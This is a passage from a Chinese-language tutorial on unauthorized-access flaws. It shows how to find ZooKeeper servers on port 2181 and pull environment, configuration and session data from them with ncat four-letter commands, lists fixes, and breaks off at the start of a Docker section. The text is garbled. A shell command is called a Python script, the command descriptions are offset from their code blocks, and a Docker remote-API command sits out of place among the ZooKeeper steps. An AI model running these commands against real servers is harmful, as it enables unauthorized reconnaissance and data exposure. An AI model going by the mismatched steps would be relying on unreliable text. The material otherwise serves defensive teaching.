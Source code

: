 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktukFoW1o9W5CDnL7Xx9Qtia5yjfr9HtuVg7sticTqgYfvYBhFgydtcoUow/640?wx_fmt=jpeg)

#### 漏洞检测

(1) 通过 nmap 扫描开放了 2181 端口的主机。

(2) 运行脚本通过 socket 连接 2181 端口并发送 envi 命令若服务端返回的数据中包含 ZooKeeper 的服务运行环境信息即可证明存在未授权访问。

Python 检测脚本：

```
echo stat |ncat 127.0.0.1 2181
```

#### 漏洞利用

1、stat：列出关于性能和连接的客户端的统计信息。

```
echo conf |ncat 127.0.0.1 2181
```

2、conf：输出相关服务配置的详细信息，端口、数据路径、日志路径、session 超时时间，最大连接数等。

```
echo cons |ncat 127.0.0.1 2181
```

3、cons：列出所有连接到当前服务器的客户端 / 会话的详细信息。

```
echo envi |ncat 127.0.0.1 2181
```

4、envi：打印有关服务环境的详细信息。

```
echo dump |ncat 127.0.0.1 2181
```

5、dump：列出未完成的会话和临时节点。

```
docker -H tcp://192.168.168.131:2375 images
```

### 修复方法

1、修改 ZooKeeper 默认端口，采用其他端口服务。

2、添加访问控制，配置服务来源地址限制策略。

3、增加 ZooKeeper 的认证配置。

Docker 未授权访问漏洞
--------------

### 漏洞简介

Docker 是一个开源的应用容器引擎，基于 Go 语言 并遵从 Apache2.0 协议开源。Docker 可以让开发者打包他们的应用以及依赖包到一个轻量级、可移植的容器中，然后发布到任何流行的 Linux 机器上，也可以实现虚拟化。容器是完全使用沙箱机制，相互之间不会有任何接口（类似 iPhone 的 app）, 更重要的是容器性能开销极低。
